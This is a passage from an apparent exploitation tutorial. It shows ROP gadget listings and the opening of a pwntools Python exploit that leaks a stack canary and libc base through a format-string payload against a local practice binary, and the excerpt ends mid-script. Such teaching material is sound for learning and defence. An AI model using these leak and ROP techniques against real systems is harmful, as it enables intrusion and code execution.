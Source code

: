 ```
0x0000000000400901: pop rsi; pop r15; ret; 
0x00000000004008fd: pop rsp; pop r13; pop r14; pop r15; ret; 
0x000000000040075a: push rbp; mov rbp, rsp; call rax; 
0x0000000000400757: sal byte ptr [rcx + rsi*8 + 0x55], 0x48; mov ebp, esp; call rax; 
0x0000000000400915: sub esp, 8; add rsp, 8; ret; 
0x0000000000400914: sub rsp, 8; add rsp, 8; ret; 
0x00000000004006ca: test byte ptr [rax], al; add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x0000000000400759: int1; push rbp; mov rbp, rsp; call rax; 
0x00000000004007c2: leave; ret; 
0x00000000004005c1: ret; 

63 gadgets found

```

You can see that in our small binary over 60 unique gadgets are already present.  
Now all that's left is chaining the right ones together ;) .   
In our case this won't be as complicated, but depending on the binary you want to exploit this task can be a real hassle!

### The exploit

{% highlight python %}
#!/usr/bin/env python2

import argparse
from pwn import *
from pwnlib import *

context.binary = ELF('./binaries/vuln_x64')
context.log_level = 'DEBUG'

libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

pop_rdi_ret_gadget = 0x0000000000400903


def prepend_0x_to_hex_value(value):
    full_hex = '0x' + value
    return full_hex


def cast_hex_to_int(hex_value):
    return int(hex_value, 16)


def get_libc_base_address(leak_dump):
    random_libc_address = leak_dump.split('.')[1]
    random_libc_address_with_0x_prepended = prepend_0x_to_hex_value(random_libc_address)
    print '[*] leaked position within libc is at %s' % random_libc_address_with_0x_prepended
    libc_to_int = cast_hex_to_int(random_libc_address_with_0x_prepended)
    libc_base = hex(libc_to_int - 0x3c6790)                                             # offset found through debugging
    print "[=>] That puts the libc base address at %s" % libc_base
    return cast_hex_to_int(libc_base)


def get_canary_value(leak_dump):
    canary_address = leak_dump.split('.')[70]
    full_canary_value = prepend_0x_to_hex_value(canary_address)
    print '[+] Canary value is: %s' % full_canary_value
    canary_to_int = cast_hex_to_int(full_canary_value)
    return canary_to_int


def leak_all_the_things():
    payload = ''
    payload += '%llx.'*71
    return payload